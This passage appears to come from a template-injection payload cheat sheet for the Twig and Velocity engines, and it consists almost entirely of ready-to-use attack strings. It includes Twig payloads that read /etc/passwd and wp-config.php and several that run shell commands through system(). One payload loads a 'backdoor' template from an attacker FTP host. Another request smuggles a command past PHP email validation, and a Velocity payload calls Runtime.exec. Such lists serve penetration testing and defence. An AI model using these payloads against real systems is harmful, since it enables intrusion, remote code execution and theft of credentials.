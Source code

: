 ### Twig - Arbitrary File Reading

```python
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```

### Twig - Code execution

```python
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```

Example injecting values to avoid using quotes for the filename (specify via OFFSET and LENGTH where the payload FILENAME is)

```python
FILENAME{% set var = dump(_context)[OFFSET:LENGTH] %} {{ include(var) }}
```

Example with an email passing FILTER_VALIDATE_EMAIL PHP.

```powershell
POST /subscribe?0=cat+/etc/passwd HTTP/1.1
email="{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@attacker.tld
```

---

## Velocity

[Official website](https://velocity.apache.org/engine/1.7/user-guide.html)
> Velocity is a Java-based template engine. It permits web page designers to reference methods defined in Java code.

```python
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

---
